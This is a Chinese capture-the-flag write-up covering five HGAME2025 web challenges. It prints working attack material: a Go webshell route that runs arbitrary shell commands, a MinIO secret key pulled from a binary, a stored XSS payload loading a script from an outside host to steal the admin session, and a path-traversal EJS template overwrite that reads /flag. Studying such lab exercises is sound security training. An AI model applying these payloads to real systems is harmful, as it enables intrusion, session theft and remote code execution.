# HGAME2025-web超详细全解-先知社区

> **来源**: https://xz.aliyun.com/news/16802  
> **文章ID**: 16802

---

# WEB5-38475 角落

## 解题思路

利用CVE-2024-38475和题目给的app.conf进行读取源码，阅读源码得到条件竞争漏洞存在

## 获取源码

首先，目录扫描可以发现题目中有robots.txt，发现app.conf的配置文件

  
app.conf中记录了一些配置信息

  
可以看到有三点关键信息。

```
# Include by httpd.conf
<Directory "/usr/local/apache2/app">  //这段记录了目录文件的配置
    Options Indexes                   //允许在该目录下显示目录列表
    AllowOverride None                //不允许.htaccess文件覆盖此配置
    Require all granted               //允许所以用户访问该目录没有限制
</Directory>   

<Files "/usr/local/apache2/app/app.py">  //这段是专门对源码app.py进行的限制
    Order Allow,Deny                     //首先会检查Allow规则，然后检查Deny规则
    Deny from all                        //静止所以用户访问这个文件
</Files>

RewriteEngine On                                  //将重写规则打开
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"        //User_Agent要为L1nk会应用重写规则  
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"//表示路由要为/admin/开始会触发重写规则

ProxyPass "/app/" "http://127.0.0.1:5000/"     //泄露了为flask框架的常用路由
```

由上面的配置，以及题目名字可以发现CVE-2024-38475的Apache配置不当漏洞。

所以由配置进行构造访问请求，可以得到源代码



源码如下

```
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
    return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']

    f = open(filename, 'w')
    f.write(message) 
    f.close()

    return redirect('index?status=Send successfully!!')
    
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'
    

if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000)
```

## 漏洞发现及解题

接着可以进行代码的审计，其实可以发现，代码的逻辑并不难，就是/send路由进行发送到message.txt，然后/read路由进行文件内容的渲染。

其中waf过滤了 ,看上去好像没有我已知的绕过方法。

但是，可以发现这俩个路由并没有文件锁以及异常的处理，所以可能会出现文件读取和写入的不同步

由此进行条件竞争即可读到flag。

send路由设置  
  
/read路由设置  


得到flag



# WEB-4 双面人派对

## 知识点

go语言逆向，mc连接MinIO管理端，mc的基本用法，gin框架代码编写

## 解题

首先，题目给了俩个靶机，一个web端进得去，一个进不去。



进得去的给了一个main文件

丢进linux运行一下，可以发现有gin报错信息，以及连接9000端口失败的信息



可以猜测，这个文件时go语言linux编译之后的文件，并且通过连接信息可以判断另外一个靶机为minio管理端，所以其中必然有连接管理端的认证key，脱壳并使用ghidra逆向一下去查找key

### 逆向程序查找key

首先是脱壳

这里使用upx进行脱壳

```
upx >upx -d main
```



然后将脱壳完成的main程序放入Ghidra中进行查找，由于目标为127.0.0.1的9000端口所以猜测key会与目标ip位于一个流量包内

Ghidra有全局搜索功能，直接搜索127.0.0.1


可以看到目标数据



得到key

```
"minio:\r
  endpoint: "127.0.0.1:9000"\r
  access_key: "minio_admin"\r
  secret_key: "JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs="\r
  bucket: "prodbucket"\r
  key: "update" "
```

### 连接minio

首先下载mc管理器，然后进行连接

```
wget https://dl.min.io/client/mc/release/linux-amd64/mc

chmod +x mc

sudo mv mc /usr/local/bin/

```

然后使用mc和之前得到的key进行连接第二台靶机

```
mc alias set myminio http://node1.hgame.vidar.club:30247 minio_admin JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs=

```



可以看到连接成功了

然后可以查看其中的代码，以及下载hint

```
mc ls myminio/hints

mc mirror myminio/hints src.zip

```

其中主函数如下

```
package main

import (
    "level25/fetch"

    "level25/conf"

    "github.com/gin-gonic/gin"
    "github.com/jpillora/overseer"
)

func main() {
    fetcher := &fetch.MinioFetcher{
        Bucket:    conf.MinioBucket,
        Key:       conf.MinioKey,
        Endpoint:  conf.MinioEndpoint,
        AccessKey: conf.MinioAccessKey,
        SecretKey: conf.MinioSecretKey,
    }
    overseer.Run(overseer.Config{
        Program: program,
        Fetcher: fetcher,
    })

}

func program(state overseer.State) {
    g := gin.Default()
    g.StaticFS("/", gin.Dir(".", true))
    g.Run(":8080")
}

```

## 文件替代并得到flag

所以我们对main函数进行更改

添加一个cmd路由，并且写好可以执行命令的语句，代码如下

```
package main

import (

"src/fetch"

"src/conf"

"fmt"

"os/exec"

"github.com/gin-gonic/gin"

"github.com/jpillora/overseer"
)

func main() {

fetcher := &fetch.MinioFetcher{

Bucket: conf.MinioBucket,

Key: conf.MinioKey,

Endpoint: conf.MinioEndpoint,

AccessKey: conf.MinioAccessKey,

SecretKey: conf.MinioSecretKey,

}

overseer.Run(overseer.Config{

Program: program,

Fetcher: fetcher,

})

}

func program(state overseer.State) {

g := gin.Default()

// 添加一个新路由/cmd

g.GET("/cmd", func(c *gin.Context) {

cmdParam := c.DefaultQuery("cmd", "") // 获取查询参数"cmd"

if cmdParam == "" {

c.JSON(400, gin.H{"error": "cmd parameter is required"})

return

}

//执行命令并获取输出

cmd := exec.Command("sh", "-c", cmdParam) //使用sh执行命令

output, err := cmd.CombinedOutput()

//获取标准输出和标准错误

if err != nil {

c.JSON(500, gin.H{"error": fmt.Sprintf("Command execution

failed: %v", err)})

return

}

//返回命令的输出

c.JSON(200, gin.H{"cmd": cmdParam, "output": string(output)})

})

//静态文件路由

g.StaticFS("/file", gin.Dir(".", true))

g.Run(":8080")

}
```

然后用linux进行编译

当然用Windows也可以

```
$env:GOOS="linux"
$env:GOARCH="amd64"
go build -o update main.go

```

编译完成后上传文件

```
mc cp ./update myminio/prodbucket
```



然后访问web端的/cmd路由读取flag



# Web3-MysteryMessageBoard

## 解题思路

爆破出shallot密码，上传xss，用admin进行访问，然后获取admin的session访问flag即可

## 解题

首先，爆破得到shallot的密码888888  


登录后进入xss平台<https://xssaq.com/project/view/12531>

使用xss平台的payload进行上传

```
<sCRiPt sRC=//xs.pe/CXm></sCrIpT>
```


输入提交即可，提交成功后页面源代码如下  


然后访问/admin模拟admin用户访问  


得到admin的session



进行session伪造读取flag



# Web2-BandBomb

## 解题思路

本来以为这道题知识点是上传文件名然后通过ejs进行模版渲染返回到首页，但是尝试过后发现行不通，然后尝试了文件上传，并通过目录穿越替代源代码发现可以通过替代源代码读取flag。

## 代码理解

```
const express = require('express');
const multer = require('multer');
const fs = require('fs');
const path = require('path');

const app = express();

app.set('view engine', 'ejs');

app.use('/static', express.static(path.join(__dirname, 'public')));
app.use(express.json());

const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    const uploadDir = 'uploads';
    if (!fs.existsSync(uploadDir)) {
      fs.mkdirSync(uploadDir);
    }
    cb(null, uploadDir);
  },
  filename: (req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({ 
  storage: storage,
  fileFilter: (_, file, cb) => {
    try {
      if (!file.originalname) {
        return cb(new Error('无效的文件名'), false);
      }
      cb(null, true);
    } catch (err) {
      cb(new Error('文件处理错误'), false);
    }
  }
});

app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');
  
  if (!fs.existsSync(uploadsDir)) {
    fs.mkdirSync(uploadsDir);
  }

  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      return res.status(500).render('mortis', { files: [] });
    }
    res.render('mortis', { files: files });
  });
});

app.post('/upload', (req, res) => {
  upload.single('file')(req, res, (err) => {
    if (err) {
      return res.status(400).json({ error: err.message });
    }
    if (!req.file) {
      return res.status(400).json({ error: '没有选择文件' });
    }
    res.json({ 
      message: '文件上传成功',
      filename: req.file.filename 
    });
  });
});

app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});

app.listen(port, () => {
  console.log(`服务器运行在 http://localhost:${port}`);
});

```

首先是storage与upload，这俩个函数是用于文件储存和上传的，上传的文件会被存储到  
uploads目录下，并且对文件没有过多的限制，传上去的文件也都是原文件名，没有进行更改

然后是首页路由，首页路由主要是通过渲染输出uploads目录中的所有文件名称，漏洞点就在于被渲染的ejs页面可以被上传文件所替代。

```
app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');  // 定义上传文件存储的目录路径
  
  if (!fs.existsSync(uploadsDir)) {  // 如果目录不存在
    fs.mkdirSync(uploadsDir);  // 创建目录
  }

  // 读取 uploads 目录中的文件列表
  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      // 如果读取文件出错，返回 500 错误并渲染 mortis.ejs 页面，文件为空
      return res.status(500).render('mortis', { files: [] });
    }
    // 渲染 mortis.ejs 页面，并将文件列表传递给视图
    res.render('mortis', { files: files });
  });
});
```

然后是rename路径，通过源码可以发现，对于newname参数，并没有做任何过滤，所以可以直接进行目录穿越，并且可以替代原本的代码。

```
app.post('/rename', (req, res) => {
  // 获取请求体中的旧文件名和新文件名
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);  // 旧文件的完整路径
  const newPath = path.join(__dirname, 'uploads', newName);  // 新文件的完整路径

  // 如果没有提供旧文件名或新文件名，返回 400 错误
  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  // 使用 fs.rename 来重命名文件
  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      // 如果重命名过程中发生错误，返回 500 错误并附带错误信息
      return res.status(500).json({ error: ' ' + err.message });
    }
    // 重命名成功，返回成功消息
    res.json({ message: ' ' });
  });
});
```

## 解题

阅读源代码之后，思路就很清晰了，直接上传一个.ejs文件，再使用rename进行目录穿越，将ejs文件替代被渲染的mortis.ejs文件即可

首先，创建一个a.ejs文件，文件中写明读取flag

```
<%= process.env.FLAG || require('fs').readFileSync('/flag', 'utf8')%>
```

然后，正常进行文件上传

成功上传之后，进入rename构造目录穿越的请求  


最后访问根目录即可得到flag


# Web1-Pacman

## 解题思路

直接查找得到flag，并进行解密即可

## 解题

首先，输了之后会返回一个假的flag


然后可以到调试器直接搜索your gift

和上面不一样的就是正确的flag



或者直接更改数据

在控制台输入\_SCORE=10000000



然后进行base64解密，与栅栏密码解密即可得到正确flag

栅栏密码的key为2



​
